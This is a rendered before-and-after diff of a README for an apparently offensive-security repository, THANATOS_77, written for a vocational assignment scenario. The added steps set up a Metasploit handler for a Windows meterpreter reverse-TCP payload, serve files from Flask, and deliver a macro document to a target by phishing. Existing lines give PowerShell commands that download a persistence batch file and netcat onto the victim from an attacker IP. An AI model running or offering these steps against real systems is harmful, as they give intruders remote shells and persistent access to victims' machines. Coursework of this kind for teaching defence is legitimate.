

Before and after one commit to SATUNIX/THANATOS_77, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 95% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -28,7 +28,46 @@ All steps are sub 15 minutes total.
 config here: should be handled by scripts
 
 # MANIFEST FOR TAFE ASSIGNMENT
+Below is the specific steps for; dependencies, requirements, and commands for the IRTx scenario.
+Utilising the aformentioned tools and tools within this git hub repository.
 
--Run msfstarter.py
+## Beware:
+Networking variables and http / folder locations in following programs are set to defaults and may need configurations pertaining to your current attack.
+1. FLASK_25.py
+2. msfstarted.py
+3. generate_macro_doc.sh
+4. Programs within /uploads
+5. Powershell scripts /\
 
--Run an appropriate flask program (Suggested is FLASK_25.py
+-Clone repo
+```
+git clone https://github/SATUNIX/THANATOS_77
+```
+-Change permissions
+```
+sudo chmod +x *
+```
+-Run msfstarter.py as sudo
+```
+sudo python3 msfstarter.py
+```
+This will start a metasploit console listner in your current terminal.
+![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/31a52ab2-4be3-4b30-85c4-1a3b4fbfaaf0)
+
+
+You may recieve the following errors:
+
+![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/c576a96d-8b98-4135-b144-12c37a9b9cf7)
+If so: Please run the commands manually, your payload file should be created at this stage.
+    Replace variables with your respective configurations.
+```
+use exploit/multi/handler
+set PAYLOAD windows/meterpreter/reverse_tcp
+set LHOST {my_ip}
+set LPORT {my_port}
+exploit -j -z
+```
+
+-Run an appropriate flask program (Suggested is FLASK_25.py with variables adjusted to your configuration)
+![image](https://github.com/SATUNIX/THANATOS_77/assets/111553838/110a919c-3fd7-4df3-bd06-a61c2c05ff12)
+
@@ -35,10 +77,10 @@ config here: should be handled by scripts
 
 -Target downloads document from generator from phishing
 
--All of the scripts require testing and configuration to verify the flask structure for get requests etc
+-All of the scripts require your own testing and configuration to verify the flask structure for get requests, netcat listeners, etc
 
--In msf console commands:
-
+-Verify command as you are requesting powershell scripts within <yourIP/uploads/>
+-In msf console command:
 ```
 powershell -c "Invoke-WebRequest -Uri 'http://10.1.1.1:8080/persistence.bat' -OutFile 'persistence.bat'"
 powershell -c "Invoke-WebRequest -Uri 'http://10.1.1.1:8080/nc.bin' -OutFile 'nc.exe'"
````
Also changed, not shown: other parts of README.md (+3 -0 lines).
